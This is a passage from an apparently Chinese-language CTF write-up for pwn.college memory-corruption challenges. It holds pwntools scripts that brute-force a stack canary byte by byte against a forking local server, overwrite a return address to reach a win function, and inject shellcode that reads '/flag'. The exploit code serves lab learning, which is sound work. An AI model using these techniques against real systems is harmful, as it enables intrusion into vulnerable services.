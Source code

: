 ```python
```

### 15.0

暴力枚举 canary 的每一位，因为服务器每次 `fork()` 不会重新随机产生 canary（注意保持服务器开启）。而在暴力猜 win 地址倒数第四位时则可以通过重启服务器来重试。

```python
win = 0x1d85
payload = b'a'*24 + b'\x00'

for i in range(7):
    for b in range(0x100):
        p = remote("127.0.0.1", 1337)
        guess = b.to_bytes(1, 'big')
        s(payload + guess)

        ru('Goodbye!\n')
        res = p.recv(timeout=0.5)

        if res == b'':
            leak(f'Byte {i} of canary', b)
            payload += guess
            break

p = remote("127.0.0.1", 1337)
payload += b'a'*8 + p16(win)
s(payload)
```

## toddlerone: Exploitation Scenarios

模版同 babymem。

### 1.0

注入类似 babyshell 1 的 shellcode，然后 ret2shellcode。

ORW 方法：

```python
# read(0, address of rip, 1000)
sc1 = """
xor rax, rax
xor rdi, rdi
lea rsi, [rip]
mov rdx, 1000  # <- rip
syscall        # sc2 comes after syscall
"""
# orw
sc2 = shellcraft.readfile("/flag", 1)

sc1_addr = 0x169e0000
sa('stdin.', asm(sc1))

payload = b'a'*0x38 + p64(sc1_addr)
s(payload)
p.send(nop*16 + asm(sc2))
```

